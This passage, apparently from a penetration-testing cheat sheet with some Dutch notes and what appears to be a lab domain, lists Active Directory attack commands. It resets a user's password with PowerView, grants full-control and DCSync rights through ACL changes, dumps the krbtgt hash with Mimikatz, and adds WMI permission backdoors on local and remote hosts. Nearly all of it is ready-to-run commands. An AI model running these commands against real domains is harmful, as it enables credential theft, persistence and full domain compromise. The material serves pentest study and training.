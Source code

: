 #### Abuse resetpassword using powerview_dev
```
Set-DomainUserPassword -Identity <username> -AccountPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force ) -Verbose
```

### DCsync
Bij een DCSync aanval immiteren we een DC om de wachtwoorden te achterhalen via domain replication. Hiervoor hebben we bepaalde rechten nodig op de domain controller.

https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync
https://blog.stealthbits.com/what-is-dcsync-an-introduction/

#### Add full-control rights
```
Add-ObjectAcl -TargetDistinguishedName ‘DC=dollarcorp,DC=moneycorp,DC=local’ -PrincipalSamAccountName <username> -Rights All -Verbose
```

#### Add rights for DCsync
```
Add-ObjectAcl -TargetDistinguishedName ‘DC=dollarcorp,DC=moneycorp,Dc=local’ -PrincipalSamAccountName <username> -Rights DCSync -Verbose
```

#### Execute DCSync and dump krbtgt
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<domain>\krbtgt"'
```

### SecurityDescriptor - WMI
```
. ./Set-RemoteWMI.ps1
```

#### On a local machine
```
Set-RemoteWMI -Username <username> -Verbose
```

#### On a remote machine without explicit credentials
```
Set-RemoteWMI -Username <username> -Computername <computername> -namespace ‘root\cimv2’ -Verbose
```

#### On a remote machine with explicit credentials
Only root/cimv and nested namespaces
```
Set-RemoteWMI -Username <username> -Computername <computername> -Credential Administrator -namespace ‘root\cimv2’ -Verbose
```

#### On remote machine remove permissions
```
Set-RemoteWMI -Username <username> -Computername <computername> -namespace ‘root\cimv2’ -Remove -Verbose
```
